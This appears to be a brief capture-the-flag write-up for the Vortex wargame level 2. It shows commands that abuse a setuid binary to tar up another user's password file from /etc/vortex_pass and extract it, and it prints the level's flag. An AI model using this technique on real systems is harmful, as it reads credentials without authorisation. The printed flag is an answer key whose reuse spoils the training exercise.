

# vortex level2 Solution

in this level, we exploit the tar archive by archiving `vortex3` password file, and when extracting, we can read it.

```
cd /etc/vortex_pass/
/vortex/vortex2 vortex3
tar xvf /tmp/ownership.$\$.tar
```



**Flag:** ***`YAVzRBMI4`*** 
